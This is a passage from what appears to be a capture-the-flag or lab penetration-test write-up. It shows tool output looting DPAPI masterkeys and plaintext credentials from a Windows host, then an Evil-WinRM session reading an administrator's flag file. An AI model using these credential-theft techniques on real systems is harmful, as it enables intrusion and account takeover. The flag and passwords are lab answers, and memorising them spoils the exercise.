SMB         172.16.4.31     445    MS02             [+] Got 33 decrypted masterkeys. Looting secrets...
SMB         172.16.4.31     445    MS02             [offshore_adm][CREDENTIAL] LegacyGeneric:target=CLIENT\offshore_adm - CLIENT\offshore_adm:Banker!123
SMB         172.16.4.31     445    MS02             [offshore_adm][CREDENTIAL] LegacyGeneric:target=cleaner - cleaner:Cleanup_Cleanup!
SMB         172.16.4.31     445    MS02             [offshore_adm][CREDENTIAL] LegacyGeneric:target=offshore_adm - offshore_adm:Banker!123
SMB         172.16.4.31     445    MS02             [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{5EC5DA4A-E046-4886-88F9-24B50E689F43} - MS02\cleaner:Cleanup_Cleanup!
```

before anything I will login again with the gained credentials and fetch some more flags?

```
*Evil-WinRM* PS C:\Users\Administrator\desktop> ls 


    Directory: C:\Users\Administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/29/2018   3:51 AM             23 flag.txt


*Evil-WinRM* PS C:\Users\Administrator\desktop> cat flag.txt
OFFSHORE{th3_fin@l_h0p}
*Evil-WinRM* PS C:\Users\Administrator\desktop>
```

I feel we can move on to the `DC04`.

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;